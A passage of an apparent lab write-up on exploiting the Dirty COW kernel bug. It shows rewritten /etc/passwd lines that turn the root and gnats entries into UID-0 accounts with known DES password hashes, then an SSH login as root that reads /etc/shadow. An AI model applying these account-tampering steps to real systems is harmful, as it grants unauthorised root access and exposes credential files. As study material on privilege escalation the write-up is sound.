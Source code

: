 > [!TIP]
>In this solution, we change the name of root to `0` and we set the password `0` (second field) so the root line remain the same size and we do not write to the second line.

```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
     ^
     passwd in /etc/shadow
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...

     
root:x:0:0:root:/root:/bin/bash <= before
0:002UBq03Nvvos:0:0:::/bin/bash <= after
  ^
  crypt DES salt 00 passwd 0 crypt("0", "00")

```

<details><summary>Click to expand</summary></details>

:dart: We can connect in SSH with the `0` user and whe are "root".

```
$ ssh 0@192.168.1.33
0@192.168.1.33's password: <= 0
...
0@debian:/# id
uid=0(0) gid=0(root) groups=0(root)
0@debian:/# head /etc/shadow
root:*:20312:0:99999:7:::
daemon:*:15604:0:99999:7:::
bin:*:15604:0:99999:7:::
sys:*:15604:0:99999:7:::
sync:*:15604:0:99999:7:::
games:*:15604:0:99999:7:::
man:*:15604:0:99999:7:::
lp:*:15604:0:99999:7:::
mail:*:15604:0:99999:7:::
news:*:15604:0:99999:7:::
```

## :two: Take ownership of the user gnats

We will apply the [solution](https://github.com/thaddeuspearson/Understanding_DirtyCOW?tab=readme-ov-file#time-to-exploit) proposed by Thaddeus Pearson with the Turtwig exploit on the `gnats` user who must be a little/not used user. **This time, we can "stay in the system"**.

```
/etc/passwd
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
...

crypt("1234", "az") = azmJb5b.yzpAA

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh <= before
gnats:azmJb5b.yzpAA:00:00:Gnats  Bug-Reporting  :/var/lib/gnats:/bin/sh <= after

```
